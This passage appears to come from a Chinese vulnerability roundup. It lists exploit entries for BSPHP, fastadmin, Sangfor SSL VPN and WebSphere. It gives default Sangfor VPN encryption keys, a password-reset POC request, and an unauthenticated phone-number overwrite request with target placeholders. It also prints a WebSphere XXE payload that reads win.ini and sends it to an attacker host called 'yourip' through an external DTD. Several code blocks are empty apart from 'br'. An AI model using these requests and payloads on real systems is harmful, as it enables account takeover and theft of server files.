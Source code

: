 **18.BSPHP 存在未授权访问**

该处泄漏的用户名和登陆 ip  

```
br

```

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgAgzlIUru7cQk5JOHiaDBPGGsuNHIsjHjvQ4G7SRHjVXoiac4KwTEhmX5KzPZTfe6gSntIaPVdWiak6A/640?wx_fmt=png)

#### **19.fastadmin 最新版前台 getshell**

```
br

```

#### **20\. 某信服 SSL VPN 任意密码重置**

#### 某信服 VPN 加密算法使用了默认的 key, 攻击者构利用 key 构造重置密码数据包从而修改任意用户的密码利用: 需要登录账号 M7.6.6R1 版本默认 key 为 20181118，M7.6.1 版本默认 key 为 20100720sangfor\_key.py 脚本：  

```
br

```

POC:  

https://<PATH>/por/changepwd.csp(post)sessReq=clusterd&sessid=0&str=RC4\_STR&len=RC4\_STR&len=(sangfor\_key.py 脚本计算后结果的值)

#### **21\. 某信服 SSL VPN 修改任意账户手机号**

修改手机号接口未正确鉴权导致越权覆盖任意用户的手机号码

利用: 需要登录账号  

```
https://<PATH>/por/changetelnum.csp?apiversion=1(POST)newtel=TARGET\_PHONE&sessReq=clusterd&username=TARGET\_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

```

**22.WebSphere XXE POC**

具体分析：具体分析在这里 https://paper.seebug.org/1342/  

```
xml如下：<!DOCTYPE x \[     <!ENTITY % aaa SYSTEM "file:///C:/Windows/win.ini">     <!ENTITY % bbb SYSTEM "http://yourip:8000/xx.dtd">     %bbb; \]> <definitions >  &ddd; </definitions> xx.dtd如下：<!ENTITY % ccc '<!ENTITY ddd '<import namespace="uri" location="http://yourip:8000/xxeLog?%aaa;"/>'>'>%ccc;

```

* * *
